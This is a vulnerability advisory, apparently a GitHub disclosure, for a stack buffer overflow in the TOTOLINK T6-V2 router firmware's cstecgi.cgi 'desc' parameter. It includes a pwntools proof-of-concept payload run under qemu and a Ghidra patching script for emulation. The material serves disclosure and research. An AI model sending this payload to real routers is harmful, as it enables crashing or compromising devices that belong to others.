



## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_00412ef4` (at address 0x412ef4) gets the JSON parameter `desc`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 



When parameter `addEffect` is equal to `1`, the program will enter the if branch at line 54.



In the red box, program copies `desc` to the stack buffer without checking its length.

## PoC


```python
from pwn import *
import json

data = {
    "topicurl": "setting/setIpPortFilterRules",
    "addEffect": "1",
    "ip": "192.168.1.1",
    "proto": "UDP",
    "sPort": "9999",
    "dPort": "9999",
    "desc": 'A'*0x400
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```



I use qemu-user to emulate the binary. However, the program calls `apmib_XXX` family functions. These functions fail and the program cannot continue to run. ld.so in the firmware doesn't support LD_PRELOAD, so I can't hook apmib_XXX family functions. For this reason, I patched the related functions in libapmib.so in /lib, such as apmib_init, apmib_get, apmib_set, and apmib_update functions. 
I use this ghidra script to do it.
```java
import ghidra.app.script.*;
import ghidra.program.model.address.*;
import ghidra.program.model.listing.*;
import ghidra.program.model.mem.*;
import java.util.*;
import java.io.*;

public class NopPatcher extends GhidraScript {

    class PatchScope implements Comparable<PatchScope> {
        Function fun;
        int beginAddr;
        int endAddr;

        PatchScope(String name, String begin, String end) {
            fun = getFunctionByName(name);
            beginAddr = (int)addressToFileOffset(getAddressFactory().getAddress(begin));
            endAddr = (int)addressToFileOffset(getAddressFactory().getAddress(end));
        }

        @Override
        public int compareTo(PatchScope candidate) {
            return this.beginAddr - candidate.beginAddr;
        }
        @Override
        public String toString() {
            return String.format("<%s, %x, %x>", fun.getName(), beginAddr, endAddr);
        }
    }

    ArrayList<PatchScope> scopes = new ArrayList<PatchScope>();

    @Override
    public void run() throws Exception {
		// String funname = "";
        // Function fun = getFunctionByName(funname);
        scopes.add(new PatchScope("apmib_set", "0x0018f24", "0x00194b0"));
        scopes.add(new PatchScope("apmib_get", "0x00185f0", "0x0018910"));
        scopes.add(new PatchScope("apmib_update", "0x00180c4", "0x00185b8"));
        scopes.add(new PatchScope("apmib_init", "0x001ae38", "0x001aef8"));

        Collections.sort(scopes);
        println(scopes.toString());

        File file = getProgramFile();
        println(file.toPath().toString());
        
        FileInputStream fileInputStream = new FileInputStream(file);
        byte[] fileContentBuffer = new byte[(int)file.length()];
        fileInputStream.read(fileContentBuffer);
        fileInputStream.close();

        for (PatchScope scope : scopes) {
            int begin = scope.beginAddr;
            int end = scope.endAddr;
            for (int i = begin; i < end; i++) {
                fileContentBuffer[i] = 0;
            }
            printf("patch function <%s> is done\n", scope.fun.getName());
        } 

        String newFilePath = file.getParent() + File.separator + "new-" + file.getName();
        println(newFilePath);
        FileOutputStream fileOutputStream = new FileOutputStream(newFilePath);
        fileOutputStream.write(fileContentBuffer);
        fileOutputStream.close();
    }

    private long addressToFileOffset(Address addr) {
        MemoryBlock[] memBlocks = getMemoryBlocks();
        MemoryBlock targetMemBlock = null;
        for (MemoryBlock mb : memBlocks) {
            if (mb.contains(addr)) {
                targetMemBlock = mb;
                break;
            }
        }
        if (targetMemBlock == null) {
            return 0;
        }
        List<MemoryBlockSourceInfo> memoryBlockSourceInfos = targetMemBlock.getSourceInfos();
        MemoryBlockSourceInfo targetSourceInfo = null;
        for (MemoryBlockSourceInfo sourceInfo : memoryBlockSourceInfos) {
            if (sourceInfo.contains(addr)) {
                targetSourceInfo = sourceInfo;
                break;
            }
        }
        if (targetSourceInfo == null) {
            return 0;
        }
        return targetSourceInfo.getFileBytesOffset(addr);
    }

    private Function getFunctionByName(String name) {
        Function fun = getFirstFunction();
        while (fun != null) {
            if (fun.getName().equals(name))
                return fun;
            fun = getFunctionAfter(fun);
        }
        return null;
    }
}

```
